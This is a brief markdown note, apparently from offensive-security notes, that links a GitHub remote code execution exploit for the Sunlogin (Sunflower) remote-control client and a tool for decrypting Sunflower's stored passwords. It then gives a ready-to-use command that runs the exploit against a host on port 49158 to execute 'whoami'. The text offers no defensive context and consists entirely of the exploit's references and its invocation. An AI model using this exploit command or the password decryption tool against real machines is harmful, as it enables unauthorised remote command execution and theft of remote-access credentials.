 
https://github.com/ce-automne/SunloginRCE
[向日葵解密工具地址](https://github.com/wafinfo/Sunflower_get_Password)


./sunRce -t rce -h 1.2.3.4 -p 49158 -c whoami
